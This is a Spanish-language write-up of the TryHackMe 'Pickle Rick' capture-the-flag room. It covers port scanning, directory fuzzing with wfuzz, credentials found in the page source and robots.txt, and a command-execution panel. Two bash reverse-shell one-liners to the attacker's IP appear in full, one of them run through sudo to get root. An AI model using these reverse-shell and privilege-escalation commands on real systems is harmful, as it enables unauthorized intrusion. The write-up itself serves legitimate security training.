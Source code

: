 ```yaml
---
title : pickle Rick
published : True
---
```


---
<p>Maquina a vulnerar Pickle Rick</p>
> Url : <a href="https://tryhackme.com/room/picklerick"> Pickle Rick </a>
<p></p>
---
<h2><font color="white"><center># pickleRick</center></font></h2>
<p>Empezaremos viendo a que sistema operativo nos enfrentamos.</p>
<img src="/imgs/pickleRick/pickleRick1.jpg"/>
<p> Vemos que el ttl es de 63 lo cual hace referencia a una maquina linux, ahora veremos que puertos estan abiertos.</p>
<img src="/imgs/pickleRick/pickleRick2.jpg"/>
<p>Puerto 22/ssh y 80/http , ya intente conectarme por ssh pero me arroja permiso denyed, mirando el codigo del html de el puerto 80, me topo que en el codigo hay un usario : <font color="yellow">R1ckRul3s</font></p>
<img src="/imgs/pickleRick/pickleRick3.jpg"/>
<p>Ahora lo que hare sera enumerar directorios activos en la pagina web, con la herramiento <font color="gold">wfuzz</font></p>
> wfuzz -t 200 --hc=404 -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.181.144/FUZZ
<p></p>
<img src="/imgs/pickleRick/pickleRick4.jpg"/>
<p>Vemos que directamente hay un robots.txt el cual al verlo en la pagnia web parece un tipo de contra.</p>
<img src="/imgs/pickleRick/pickleRick5.jpg"/>
<p>Posterior mente me doy cuenta que existe un login.php</p>
<img src="/imgs/pickleRick/pickleRick6.jpg"/>
<p>El cual con el usuario anterior encontrado y la contra me lleva a un panel con ejecucion remota de comandos</p>
>/bin/bash -c  "bash -i >& /dev/tcp/10.18.27.215/444 0>&1"
<p></p>
<img src="/imgs/pickleRick/pickleRick7.jpg"/>
<p>Lo cual me aprovecho de la ejecucion remota de coamando para hacerme una web shell </p>
<img src="/imgs/pickleRick/pickleRick8.jpg"/>
<p>Posteriormente me doy cuenta que el usuario www-data puede ejecutar cualquier comando</p>
> sudo -l
<p></p>
<img src="/imgs/pickleRick/pickleRick9.jpg"/>
<p>Entonces me hago una reverse sell con el sudo</p>
> sudo /bin/bash -c "bash -i >& /dev/tcp/10.18.27.215/445 0>&1"
<p></p>
<img src="/imgs/pickleRick/pickleRick10.jpg"/>
<p>Ok maquina <font color="red">Vulnerada</font></p>
